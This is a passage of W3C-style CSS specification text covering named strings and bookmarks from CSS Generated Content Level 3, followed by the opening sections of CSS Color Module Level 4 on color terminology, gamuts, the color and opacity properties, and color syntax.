> …which will be discussed <a href="#chapter_h1_1">later</a>.
>
> a::after { content: ", in the chapter entitled " target-text(attr(href url)) }
> ```
>
> Result: …which will be discussed later, in the chapter entitled Loomings.

### 7.  Named Strings {#css-content-3:named-strings}

This section introduces **named strings**, which are the textual equivalent of counters and which have a distinct namespace from counters. Named strings follow the same nesting rules as counters. The `string-set` property accepts values similar to the `content` property, including the extraction of the current value of counters.

Named strings are a convenient way to pull metadata out of the document for insertion into headers and footers. In HTML, for example, META elements contained in the document HEAD can set the value of named strings. In conjunction with attribute selectors, this can be a powerful mechanism:

> **Example:** ```
> meta[author] { string-set: author attr(author); }
> head > title { string-set: title contents; }
> @page:left {
>   @top {
>    text-align: left;
>    vertical-align: middle;
>    content: string(title);
>   }
> }
> @page:right {
>   @top {
>    text-align: right;
>    vertical-align: middle;
>    content: string(author);
>   }
> }
> ```

#### 7.1.  Naming Strings: the `string-set` property {#css-content-3:string-set}

| Field | Value |
| --- | --- |
| Name: | **string-set** |
| [Value:](#css-values-4:value-defs) | none \| [ `<custom-ident>` `<string>`+ ]# |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | all elements, but not pseudo-elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | the keyword `none` or a list, each item an identifier paired with a list of string values |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

*User agents are expected to support this property on all media, including non-visual ones.*

The `string-set` property copies the text content of an element into a `named string`, which functions as a variable. The text content of this named string can be retrieved using the `string()` function. Since these variables may change on a given page, an optional second value for the `string()` function allows authors to choose which value on a page is used.

****none****

: The element does not set any named strings.

**`[ <custom-ident> <string>+ ]#`**

: The element establishes one or more named strings, corresponding to each comma-separated entry in the list.

  For each entry, the `<custom-ident>` gives the name of the named string. It’s followed by one or more `<string>` values, which are concatenated together to form the value of the named string.

If an element has style containment, the `string-set` property must have no effects on descendants of that element.

> **Example:** The following example captures the contents of H1 elements, which represent chapter names in this hypothetical document.
>
> ```
> H1 { string-set: chapter contents; }
> ```
>
> When an H1 element is encountered, the `chapter` string is set to the element’s textual contents, and the previous value of `chapter`, if any, is overwritten.

#### 7.2.  Inserting Named Strings: the `string()` function {#css-content-3:string-function}

```css
string() = string( <custom-ident> , [ first | start | last | first-except ]? )
```

The `string()` function is used to copy the value of a named string to the document, via the `content` property. This function requires one argument, the name of the named string. Since the value of a named string may change several times on a page (as multiple elements defining the string can appear) an optional second argument indicates which value of the named string should be used.

The second argument of the `string()` function is one of the following keywords:

****first****

: The value of the first assignment on the page is used. If there is no assignment on the page, the entry value is used. If no second argument is provided, this is the default value.

****start****

: If the element is the first element on the page, the value of the first assignment is used. Otherwise the entry value is used. The entry value may be empty if the named string hasn’t yet appeared.

****last****

: The exit value of the named string is used.

****first-except****

: This is identical to `first`, except that the empty string is used on the page where the value is assigned.

  > **Issue:** we may need to kill the entire content string. Is this necessary?

The content values of named strings are assigned at the point when the content box of the element is first created (or would have been created if the element’s display value is none). The **entry value** for a page is the assignment in effect at the end of the previous page. The **exit value** for a page is the assignment in effect at the end of the current page.

> **Example:** CSS:
>
> ```
> @page {
>   size: 15cm 10cm;
>   margin: 1.5cm;
>
>   @top-left {
>   content: "first: " string(heading, first);
>   }
>   @top-center {
>   content: "start: " string(heading, start);
>   }
>    @top-right {
>    content: "last: " string(heading, last);
>   }
>   }
>
> h2 { string-set: heading content() }
> ```
>
> The following figures show the first, start, and last assignments of the “heading” string on various pages.
>
> 
>
> The `start` value is empty, as the string had not yet been set at the start of the page.
>
> 
>
> Since the page starts with an h2, the `start` value is the value of that head.
>
> 
>
> Since there’s not an h2 at the top of this page, the `start` value is the exit value of the previous page.

#### 7.3.  The `content()` function {#css-content-3:content-function}

```css
content() = content( [ text | before | after | first-letter | marker ]? )
```

****text****

: The string value of the element. If no value is specified in `content()`, it acts as if `text` were specified.

****before****

: The string value of the `::before` pseudo-element.

****after****

: The string value of the `::after` pseudo-element.

****first-letter****

: The first letter of the element, as defined for the `::first-letter` pseudo-element

****marker****

: The string value of the `::marker` pseudo-element.

> **Example:** HTML:
>
> ```
> <h1>Loomings</h1>
> ```
>
> CSS:
>
> ```
> h1::before { content: 'Chapter ' counter(chapter); }
> h1 { string-set: header content(before) ':' content(text); }
> h1::after { content: '.'; }
> ```
>
> The value of the named string “header” will be “Chapter 1: Loomings”.

> **Example:** HTML:
>
> ```
> <section title="Loomings">
> ```
>
> CSS:
>
> ```
> section { string-set: header attr(title) }
> ```
>
> The value of the “header” string will be “Loomings”.

### 8.  Bookmarks {#css-content-3:bookmark-generation}

Some document formats, most notably PDF, allow the use of **bookmarks** as an aid to navigation. Bookmarks provide a list of links to document elements, as well as text to label the links and a level value. A bookmark has three properties: `bookmark-level`, `bookmark-label`, and `bookmark-state`.

When a user activates a bookmark, the user agent must bring that reference point to the user’s attention, exactly as if navigating to that element by fragment URL. This will also trigger matching the `:target` pseudo-class.

If an element has style containment, the `bookmark-level`, `bookmark-label`, and `bookmark-state` properties must have no effect on descendants of the element.

#### 8.1.  Setting a Bookmark: the `bookmark-level` property {#css-content-3:bookmark-level}

The `bookmark-level` property determines if a bookmark is created, and at what level. If this property is absent, or has value `none`, no bookmark should be generated, regardless of the values of `bookmark-label` or `bookmark-state`.

| Field | Value |
| --- | --- |
| Name: | **bookmark-level** |
| [Value:](#css-values-4:value-defs) | none \| `<integer [1,∞]>` |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | the keyword `none` or the specified integer |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

****`<integer [1,∞]>`****

: defines the level of the bookmark, with the top level being 1 (negative and zero values are invalid).

****none****

: no bookmark is generated.

> **Example:** ```
> section h1 { bookmark-level: 1; }
> section section h1 { bookmark-level: 2; }
> section section section h1 { bookmark-level: 3; }
> ```

> **Note:** Bookmarks do not need to create a strict hierarchy of levels.

> **Issue:** Should a bookmark be created for elements with `display: none`?

#### 8.2.  Labelling a Bookmark: the `bookmark-label` property {#css-content-3:bookmark-label}

| Field | Value |
| --- | --- |
| Name: | **bookmark-label** |
| [Value:](#css-values-4:value-defs) | `<content-list>` |
| [Initial:](#css-cascade-6:initial-values) | content(text) |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

****`<content-list>`****

: `<content-list>` is defined above, in the section on the `string-set` property. The value of <content-list> becomes the text content of the bookmark label.

> **Example:** HTML:
>
> ```
> <h1>Loomings</h1>
> ```
>
> CSS:
>
> ```
> h1 {
> bookmark-label: content(text);
> bookmark-level: 1;
> }
> ```
>
> The bookmark label will be “Loomings”.

#### 8.3.  Initial Bookmark Toggle State: the `bookmark-state` property {#css-content-3:bookmark-state}

The `bookmark-state` may be open or closed. The user must be able to toggle the bookmark state.

| Field | Value |
| --- | --- |
| Name: | **bookmark-state** |
| [Value:](#css-values-4:value-defs) | open \| closed |
| [Initial:](#css-cascade-6:initial-values) | open |
| [Applies to:](#css-cascade-5:applies-to) | block-level elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

****open****

: Subsequent bookmarks with `bookmark-level` greater than the given bookmark are displayed, until reaching another bookmark of the same level or lower. If one of subsequent bookmark is closed, apply the same test to determine if its subsequent bookmarks should be displayed.

****closed****

: Subsequent bookmarks of bookmark-level greater than the given bookmark are not displayed, until reaching another bookmark of the same level or lower.

> **Issue:** Is the initial bookmark state, or the bookmark state updated by the UA as appropriate?

---

## CSS Color Module Level 4 {#css-color-4}

- **Shortname:** `css-color-4`
- **Editor's Draft:** [https://drafts.csswg.org/css-color-4/](https://drafts.csswg.org/css-color-4/)
- **Published TR:** [https://www.w3.org/TR/css-color-4/](https://www.w3.org/TR/css-color-4/)
- **W3C Status:** ED (testing)
- **Last Edited:** 2026-10-26

### 1.  Introduction {#css-color-4:introduction}

*This section is not normative.*

This module describes CSS properties which allow authors to specify the foreground color and opacity of the text content of an element. This module also describes in detail the CSS `<color>` value type.

It not only defines the color-related properties and values that already exist in [CSS1](https://www.w3.org/TR/CSS1), [CSS2](#css2), and [CSS Color 3](#css-color-4), but also defines new properties and values.

In particular, it allows specifying colors in other color spaces than sRGB; previously, the more saturated colors outside the sRGB gamut could not be used in CSS even if the display device supported them.

A [draft implementation report](https://drafts.csswg.org/css-color-4/test-coverage) is available.

#### 1.1.  Value Definitions {#css-color-4:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2. Color Terminology {#css-color-4:terminology}

A **color** is a definition (numeric or textual) of the human visual perception of a light or a physical object illuminated with light. The objective study of human color perception is termed colorimetry.

The color of a physical object depends on how much light it reflects at each visible wavelength, plus the actual color of the light illuminating it (again, the amount of light at each wavelength). It is measured by a *spectrophotometer* .

The color of something that emits light (including colors on a computer screen) depends on how much light it emits at each visible wavelength. It is measured by a *spectroradiometer*.

If two objects have different spectra, but still produce the same physical sensation, we say they have the same color. We can calculate whether two colors are the same by converting the spectra to CIE XYZ (three numbers).

> **Example:** For example a green leaf, a photograph of that leaf displayed on a computer screen, and a print of that photograph, are all producing a green sensation by different means. If the screen and the printer are calibrated, the green in the leaf, and the photo, and the print will look the same.

A **color space** is an organization of colors with respect to an underlying colorimetric model, such that there is a clear, objectively-measurable meaning for any color in that color space. This also means that the same color can be expressed in multiple color spaces, or transformed from one color space to another, while still looking the same.

> **Example:** A leaf is measured with a spectrophotometer and found to have the color  lch(51.2345% 21.2 130) which is  lab(51.2345% -13.6271 16.2401).
>
> This same color could be expressed in various color spaces:
>
> ```css
>  color(sRGB 0.41587 0.503670 0.36664);
>  color(display-p3 0.43313 0.50108 0.37950);
>  color(a98-rgb 0.44091 0.49971 0.37408);
>  color(prophoto-rgb 0.36589 0.41717 0.31333);
>  color(rec2020 0.47428 0.52316 0.41425);
> ```

An **additive color space** means that the coordinate system is linear in light intensity. The CIE XYZ color space is an additive color space. The Y component of XYZ is the **luminance**, the light intensity per unit area, or 'how bright it is'. Luminance is measured in candelas per square meter. cd/m², also called *nits*.

In an additive color space, calculations can be done to *accurately predict* color mixing. Most RGB spaces are not additive, because the components are *gamma encoded*. Undoing this gamma encoding produces linear-light values.

> **Example:** For example, if a light fixture contains two identical colored lights, and only one is switched on, and the color is measured to be  color(xyz-d50 0.13 0.12 0.04), then the color when both are switched on will be exactly twice that,  color(xyz-d50 0.26 0.24 0.08).
>
> If we have two differently colored spotlights shining on a stage, and one has the measured value  color(xyz-d50 0.15 0.24 0.17) while the other is  color(xyz-d50 0.11 0.06 0.06) then we can accurately predict that if the colored beams are made to overlap, the color of the mixture will be the sum of the XYZ component values, or  color(xyz-d50 0.26 0.30 0.23).

A **chromaticity** is a color measurement where the lightness component has been factored out. From the identical lights example above, the *u',v'* chromaticity with one light is (0.2537, 0.5268) and the chromaticity is the same with both lights (they are the same color, it is just brighter).

Chromaticities are additive, so they accurately predict the chromaticity (but not the resulting lightness) of a mixture. Being two-dimensional, chromaticity is easily represented on a *chromaticity diagram* to predict the chromaticity of a color mixture. Any two colors can be mixed, and the resulting colors will lie on the line joining them on the diagram. Three colors form a plane, and the resulting colors will lie in the triangle they form on the diagram.


A chromaticity diagram showing (in solid colors) the `display-p3` color space and for comparison (faded) the `sRGB` color space. The white point (D65) is also shown.

Thus, once linearized, RGB color spaces are additive, and their gamut is defined by the chromaticities of the red, green and blue primaries, plus the chromaticity of the **white point** (the color formed by all three primaries at full intensity).

Most color spaces use one of a few daylight-simulating white points, which are named by the correlated color temperature (CCT) [Understanding_CCT] of the corresponding black-body radiator. For example, D65 is a daylight whitepoint corresponding to a correlated color temperature of 6500 Kelvin (actually 6504, because the value of Plank’s constant has changed since the color was originally defined).

To avoid cumulative round-trip errors, it is important that the identical chromaticity values are used consistently, at all places in a calculation. Thus, for maximum compatibility, for this specification, the following two standard daylight-simulating white points are defined:

| Name | x | y | CCT |
| --- | --- | --- | --- |
| **D50** | 0.345700 | 0.358500 | 5003K |
| **D65** | 0.312700 | 0.329000 | 6504K |

When the measured physical characteristics (such as the chromaticities of the primary colors it uses, or the colors produced in response to a given set of inputs) of a color space or a color-producing device are known, it is said to be **characterized**.

If in addition adjustments have been made so that a device meets calibration targets such as white point, neutrality of greys, predictability and consistency of tone response, then it is said to be **calibrated**.

Real physical devices cannot yet produce every possible color that the human eye can see. The range of colors that a given device can produce is termed the **gamut** *(not to be confused with gamma)*. Devices with a limited gamut cannot produce very saturated colors, like those found in a rainbow.


A top-down view of three gamuts, plotted in Oklab with the positive a-axis towards the right and the positive b-axis towards the top; looking down the l-axis so white and neutrals are in the center. The largest of the three gamuts is ITU Rec BT.2020; the medium-sized one is Display P3, and the smallest is sRGB. Rendering by Alexey Ardov.

The gamuts of different color spaces may be compared by looking at the volume (in cubic Lab units) of colors that can be expressed. The following table examines the [predefined](#css-color-4:predefined) color spaces available in CSS.

| color space | Volume (million Lab units) |
| --- | --- |
| sRGB | 0.820 |
| display-p3 | 1.233 |
| a98-rgb | 1.310 |
| prophoto-rgb | 2.896 |
| rec2020 | 2.042 |

A color in CSS is either an **invalid color**, as described below for each syntactic form, or a valid color.

Any color which is not an invalid color is a **valid color**.

A color may be a valid color but still be outside the range of colors that can be produced by an output device (a screen, projector, or printer)

It is said to be **out of gamut**.

Each valid color is either **in-gamut** for a particular output device (screen, or printer) or it is out of gamut.

> **Example:** For example, given a screen which covers 100% of the display-p3 color space, but no more, the following color is out of gamut:
>
> ```
>  color(prophoto-rgb 0.88 0.45 0.10)
> ```
>
> because, expressed in display-p3, one or more coordinates are either greater than 1.0 or less than 0.0:
>
> ```
>  color(display-p3 1.0844 0.43 0.1)
> ```
>
> This color is valid, and could, for example, be used as a gradient stop, but would need to be CSS gamut mapped for display, producing a similar-looking but lower chroma (less saturated) color.

### 3. Applying Color in CSS {#css-color-4:applying-color}

#### 3.1.  Accessibility and Conveying Information By Color {#css-color-4:accessibility}

Although colors can add significant information to documents and make them more readable, color by itself should not be the sole means to convey important information. Authors should consider the W3C Web Content Accessibility Guidelines [WCAG21] when using color in their documents.

> [*1.4.1 Use of Color:* Color is not used as the only visual means of conveying information, indicating an action, prompting a response, or distinguishing a visual element](https://www.w3.org/TR/WCAG21/#use-of-color)

#### 3.2.  Foreground Color: the `color` property {#css-color-4:the-color-property}

| Field | Value |
| --- | --- |
| Name: | **color** |
| [Value:](#css-values-4:value-defs) | `<color>` |
| [Initial:](#css-cascade-6:initial-values) | CanvasText |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | computed color, see [resolving color values](#css-color-4:resolving-color-values) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

This property specifies the primary foreground color of the element. This is used as the fill color of its text content, and in addition specifies the used value that `currentcolor` resolves to, which allows indirect references to this foreground color and affects the initial values of various other color properties such as `border-color` and `text-emphasis-color`.

**`<color>`**

: Sets the primary foreground color to the specified `<color>`.

> **Example:** The `<color>` type provides multiple ways to syntactically specify a given color. For example, the following declarations all specify the sRGB color “lime”:
>
> ```css
> em { color:  lime; }   /* color keyword  */
> em { color:  rgb(0 255 0); } /* RGB range 0-255   */
> em { color:  rgb(0% 100% 0%); } /* RGB range 0%-100% */
> em { color:  color(sRGB 0 1 0); } /* sRGB range 0.0-1.0 */
> ```

When applied to text, this property, including its alpha component, has no effect on “color glyphs” (such as the emoji in some fonts), which are colored by a built-in palette. However, some colored fonts are able to refer to a contextual “foreground color”, such as by palette entry `0xFFFF` in the `COLR` table of OpenType, or by the `context-fill` value in SVG-in-OpenType. In such cases, the foreground color is set by this property, identical to how it sets the `currentcolor` value.

#### 3.3.  Transparency: the `opacity` property {#css-color-4:transparency}

Opacity can be thought of as a postprocessing operation. Conceptually, after the element (including its descendants) is rendered into an RGBA offscreen image, the opacity setting specifies how to blend the offscreen rendering into the current composite rendering. See [simple alpha compositing](#css-color-4:alpha) for details.

| Field | Value |
| --- | --- |
| Name: | **opacity** |
| [Value:](#css-values-4:value-defs) | `<opacity-value>` |
| [Initial:](#css-cascade-6:initial-values) | 1 |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | map to the range [0,1] |
| [Computed value:](#css-cascade-6:computed) | specified number, clamped to the range [0,1] |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

****`<opacity-value>`****

: The opacity to be applied to the element. The resulting opacity is applied to the entire element, rather than a particular color.

  Opacity values outside the range [0,1] are not invalid, and are preserved in specified values, but are clamped to the range [0, 1] in computed values.

Opacity in CSS is represented using the `<opacity-value>` syntax, for example in the `opacity` property.

```css
<opacity-value> = <number> | <percentage>
```

Represented as a `<number>`, the useful range of the value is `0` (representing full transparency) to `1` (representing full opacity). It can also be written as a `<percentage>`, which computes to the equivalent <number> (`0%` to `0`, `100%` to `1`).

The `opacity` property applies the specified opacity to the element *as a whole*, including its contents, rather than applying it to each descendant individually. This means that, for example, an opaque child occluding part of the element’s background will continue to do so even when `opacity` is less than 1, but the element and child as a whole will show the underlying page through themselves.

It also means that the glyphs corresponding to all characters in the element are treated *as a whole*; any overlapping portions do not increase the opacity.


Correct and incorrect rendering of text with an `opacity` value of less than one, whose glyphs overlap.

If separate opacity for each glyph is desired, it can be achieved by using a color value which includes alpha, rather than setting the `opacity` property.

If a box has `opacity` less than 1, it forms a stacking context for its children. (This prevents its contents from interleaving in the z-axis with content outside it.)

Furthermore, if the `z-index` property applies to the box, the `auto` value is treated as `0` for the element; it is otherwise painted on the same layer within its parent stacking context as positioned elements with stack level 0 (as if it were a positioned element with `z-index:0`).

See [section 9.9](#css2:layers) and [Appendix E](#css2) of [CSS2] for more information on stacking contexts.

These rules about z-order do not apply to SVG elements, since SVG has its own [rendering model](https://www.w3.org/TR/SVG11/render.html) ([SVG11], Chapter 3).

The value of the `opacity` property does *not* affect hit testing.

#### 3.4. Color Space of Tagged Images {#css-color-4:tagged-images}

An **tagged image** is an image that is explicitly assigned a color profile, as defined by the image format. This is usually done by including an International Color Consortium (ICC) profile [ICC].

For example JPEG [JPEG], PNG [PNG] and TIFF [TIFF] all specify a means to embed an ICC profile.

Image formats may also use other, equivalent methods, often for brevity.

For example, PNG specifies a means (the [sRGB chunk](https://www.w3.org/TR/PNG/#11sRGB)) to explicitly tag an image as being in the sRGB color space, without including the sRGB ICC profile.

Similarly, PNG specifies a compact means (the [cICP chunk](https://www.w3.org/TR/png-3/#cICP-chunk)) to explicitly tag an image as being one of various SDR or HDR color spaces, such as Display P3 or BT.2100 HLG, without including an ICC profile.

Tagged RGB images, and tagged images using a transformation of RGB such as YCbCr, if the color profile or other identifying information is valid, must be treated as being in the specified color space.

For example, when a browser running on a system with a Display P3 monitor displays an JPEG image tagged as being in the ITU Rec BT.2020 [Rec.2020] color space, it must convert the colors from ITU Rec BT.2020 to Display P3 so that they display correctly. It must not treat the ITU Rec BT.2020 values as if they were Display P3 values, which would produce incorrect colors.

If the color profile or other identifying information is invalid, the image is treated as described for untagged images.

#### 3.5.  Color Spaces of Untagged Colors {#css-color-4:untagged}

For compatibility, colors specified in HTML, and untagged images must be treated as being in the sRGB color space ([SRGB]) unless otherwise specified.

An **untagged image** is an image that is not explicitly assigned a color profile, as defined by the image format.

This rule does not apply to untagged videos, since **untagged video** should be presumed to be in an ITU-defined color space.

- At below 720p, it is Recommendation ITU-R BT.601 [ITU-R-BT.601]
- At 720p, it is SMPTE ST 296 (same colorimetry as 709) [SMPTE296]
- At 1080p, it is Recommendation ITU-R BT.709 [ITU-R-BT.709]
- At 4k (UHDTV) and above, it is ITU-R BT.2020 [Rec.2020] for SDR video

### 4.  Representing Colors: the `<color>` type {#css-color-4:color-type}

Colors in CSS are represented as a list of color components, also sometimes called “channels”, representing axises in the color space. Each component has a minimum and maximum value, and can take any value between those two. Additionally, every color is accompanied by an **alpha component**, indicating how transparent it is, and thus how much of the backdrop one can see through the color.

CSS has several syntaxes for specifying color values:

- the sRGB hex color notation which represents the RGB and alpha components in hexadecimal notation
- the various color functions which can represent colors using a variety of color spaces and coordinate systems
- the constant named color keywords
- the variable `<system-color>` keywords and `currentColor` keyword.

The **color functions** use CSS functional notation to represent colors in a variety of color spaces by specifying their component coordinates. Some of these use a **cylindrical polar color** model, specifying color by a `<hue>` angle, a central axis representing lightness (black-to-white), and a radius representing saturation or chroma (how far the color is from a neutral grey). The others use a **rectangular orthogonal color** model, specifying color using three orthogonal component axes.

The color functions available in Level 4 are

- `rgb()` and its `rgba()` alias, which (like the hex color notation) specify sRGB colors directly by their red/green/blue/alpha components.
- `hsl()` and its `hsla()` alias, which specify sRGB colors by hue, saturation, and lightness using the [HSL](#css-color-4:the-hsl-notation) cylindrical coordinate model.
- `hwb()`, which specifies an sRGB color by hue, whiteness, and blackness using the [HWB](#css-color-4:the-hwb-notation) cylindrical coordinate model.
- `lab()`, which specifies a CIELAB color by CIE Lightness and its a- and b-axis hue coordinates (red/green-ness, and yellow/blue-ness) using the [CIE LAB rectangular coordinate model](#css-color-4:cie-lab).
- `lch()` , which specifies a CIELAB color by CIE Lightness, Chroma, and hue using the [CIE LCH cylindrical coordinate model](#css-color-4:cie-lab)
- `oklab()`, which specifies an Oklab color by Oklab Lightness and its a- and b-axis hue coordinates (red/green-ness, and yellow/blue-ness) using the [Oklab](#css-color-4:ok-lab) rectangular coordinate model.
- `oklch()` , which specifies an Oklab color by Oklab Lightness, Chroma, and hue using the [OkLCh](#css-color-4:ok-lab) cylindrical coordinate model.
- `color()`, which allows specifying colors in a variety of color spaces including [sRGB](#css-color-4:predefined-sRGB), [Linear-Light sRGB](#css-color-4:predefined-sRGB-linear), [Display P3](#css-color-4:predefined-display-p3), [Linear-Light Display P3](#css-color-4:predefined-display-p3-linear), [A98 RGB](#css-color-4:predefined-a98-rgb), [ProPhoto RGB](#css-color-4:predefined-prophoto-rgb), [ITU-R BT.2020-2](#css-color-4:predefined-rec2020), and [CIE XYZ](#css-color-4:predefined-xyz).

For easy reference in other specifications, **opaque black** is defined as the color `rgb(0 0 0 / 100%)`; **transparent black** is the same color, but fully transparent—​i.e. `rgb(0 0 0 / 0%)`.

#### 4.1. The `<color>` syntax {#css-color-4:color-syntax}

Colors in CSS are represented by the **`<color>`** type:

```css
<color> = <color-base> | currentColor | <system-color>

<color-base> = <hex-color> | <color-function> | <named-color> | transparent
<color-function> = <rgb()> | <rgba()> |
              <hsl()> | <hsla()> | <hwb()> |
              <lab()> | <lch()> | <oklab()> | <oklch()> |
              <color()>
```

An **absolute color** is a `<color>` whose computed value has an absolute, colorimetric interpretation. This means that the value is not:

- `currentColor` (which depends on the value of the `color` property)
- a `<system-color>` (which depends on the color mode)

The colors that **resolve to sRGB** are:

- [hex](#css-color-4:hex-notation) colors
- `rgb()` and `rgba()` values
- `hsl()` and `hsla()` values
- `hwb()` values
- [named](#css-color-4:named-colors) colors

The functions that **support legacy color syntax** are:

- `rgb()` and `rgba()`
- `hsl()` and `hsla()`

The `<hsl()>`, `<hsla()>`, `<hwb()>`, `<lch()>`, and `<oklch()>` color functions are cylindrical polar color representations using a `<hue>` angle; the other color functions use rectangular orthogonal color representations.

##### 4.1.1.  Modern (Space-separated) Color Function Syntax {#css-color-4:color-syntax-modern}

All of the absolute color functional forms first defined in this specification use the **modern color syntax**, meaning:

- color components are separated by whitespace
- the optional alpha term is separated by a solidus ("/")
- minimum required precision [when serializing](#css-color-4:serializing-color-values) is defined, and may be greater than 8 bits per component
- the `none` value is allowed, to represent missing components
- components using `<percentage>` and `<number>` may be freely mixed

> **Example:** The following represents a saturated sRGB red that is 50% opaque:
>
> ```
> rgb(100% 0% 0% / 50%)
> ```

##### 4.1.2.  Legacy (Comma-separated) Color Function Syntax {#css-color-4:color-syntax-legacy}

For Web compatibility, the syntactic forms of `rgb()`, `rgba()`, `hsl()`, and `hsla()`, (those defined in earlier specifications) also support a **legacy color syntax** which has the following differences:

- color components are separated by commas (optionally preceded and/or followed by whitespace)
- non-opaque forms use a separate notation (for example `hsla()` rather than `hsl()`) and the alpha term is separated by commas (optionally preceded and/or followed by whitespace)
- minimum required precision is lower, 8 bits per component
- the `none` value is not allowed
- color components must be specified using either all-`<percentage>` or all-`<number>`, they can not be mixed.

> **Example:** The following represents a saturated sRGB red that is 50% opaque:
>
> ```
> rgba(100%, 0%, 0%, 0.5)
> ```

For the color functions introduced in this or subsequent levels, where there is no Web compatibility issue, the legacy color syntax is invalid.

#### 4.2.  Representing Transparency in Colors: the `<alpha-value>` syntax {#css-color-4:alpha-syntax}

```css
<alpha-value> = <number> | <percentage>
```

> **Note:** This syntax is used as-is for legacy color syntax. For modern color syntax, it is extended so that alpha components can also take the value `none`.

Unless otherwise specified, an `<alpha-value>` component of a color defaults to `100%` when omitted. Values outside the range [0,1] are not invalid, but are clamped to that range at parsed-value time.

#### 4.3.  Representing Cylindrical-coordinate Hues: the `<hue>` syntax {#css-color-4:hue-syntax}

Hue is represented as an angle of the color circle (the rainbow, twisted around into a circle, and with purple added between violet and red).

```css
<hue> = <number> | <angle>
```

Because this value is so often given in degrees, the argument can also be given as a number, which is interpreted as a number of degrees and is the canonical unit.

This number is normalized to the range [0,360).

> **Example:** For example, in  `hsl(-540 0 0)` or  `hsl(540 0 0)`, the `<hue>` component is normalized to 180 degrees.
>
> In  `hsl(360 0 0)` the `<hue>` component is normalized to 0 degrees.
>
> In  `hsl(calc(-infinity) 0 0)` or  `hsl(calc(infinity) 0 0)`, the `<hue>` component is again normalized to 0 degrees.

> **Note:** The angles and spacing corresponding to particular hues depend on the color space. For example, in HSL and HWB, which use the sRGB color space, sRGB green is 120 degrees. In LCH, sRGB green is 134.39 degrees, display-p3 green is 136.01 degrees, a98-rgb green is 145.97 degrees and prophoto-rgb green is 141.04 degrees (because these are all different shades of green).

`<hue>` components are the most common components to become powerless; any color sufficiently close to the central achromatic axis will have a powerless hue component.

#### 4.4.  “Missing” Color Components and the `none` Keyword {#css-color-4:missing}

In certain cases, a color can have one or more **missing color components**.

In this specification, this happens automatically due to [hue-based interpolation](#css-color-4:hue-interpolation) for some colors (such as `white`); other specifications can define additional situations in which components are automatically missing.

It can also be specified explicitly, by providing the keyword **none** for a component in a color function. All color functions (with the exception of those using the legacy color syntax) allow any of their components to be specified as `none`.

This should be done with care, and only when the particular effect of doing so is desired.

For handling of missing components in situations which combine two colors, such as color interpolation, see [§ 13.4 Interpolating with Missing Components](#css-color-4:interpolation-missing).

For all other purposes, a missing component behaves as a zero value, in the appropriate unit for that component: `0`, `0%`, or `0deg`. This includes rendering the color directly, converting it to another color space, performing computations on the color component values, etc.

If a color with a missing component is serialized or otherwise presented directly to an author, then for legacy color syntax it represents that component as a zero value; otherwise, it represents that component as being the `none` keyword.

> **Example:** A missing hue is common when interpolating in cylindrical color spaces. For example, using the `color-mix()` function specified in [CSS-COLOR-5] one could write `color-mix(in hsl, white 30%, green 70%)`. Since `white` is an achromatic color, it has a missing hue when expressed in `hsl()` (effectively `hsl(none 0% 100%))`, since *any* hue will produce the same color) which means that the color-mix function will treat it as having the same hue as `green` (effectively `hsl(120deg 0% 100%)`), and then interpolate based on those components.
>
> The result will be a color that truly looks like a blend of green and white, rather than perhaps looking reddish (if `white`s hue was defaulted to `0deg`).

> **Example:** Explicitly specifying missing components can be useful to achieve an effect where you only *want* to interpolate certain components of a color.
>
> For example, to animate a color to "grayscale", no matter what the color is, one can interpolate it with `oklch(none 0 none)`. This will take the hue and lightness from the starting color, but animate its chroma down to 0, rendering it into an equal-lightness gray with a steady hue across the whole animation.
>
> Doing this manually would require matching the hue and lightness of the starting color explicitly.

##### 4.4.1.  “Powerless” Color Components {#css-color-4:powerless}

Individual color syntaxes can specify that, in some cases, a given component of their syntax becomes a **powerless color component**. This indicates that the value of the component doesn’t affect the rendered color; any value you give it will result in the same color displayed in the screen.

For example, in `hsl()`, the hue component is powerless when the saturation component is `0%`; a `0%` saturation indicates a grayscale color, which has no hue at all, so `0deg` and `180deg`, or any other angle, will give the exact same result.

If a powerless component is manually specified, it acts as normal; the fact that it’s powerless has no effect.

However, if a color is automatically produced by color space conversion, then any powerless components in the result must instead be set to missing, instead of whatever value was produced by the conversion process.

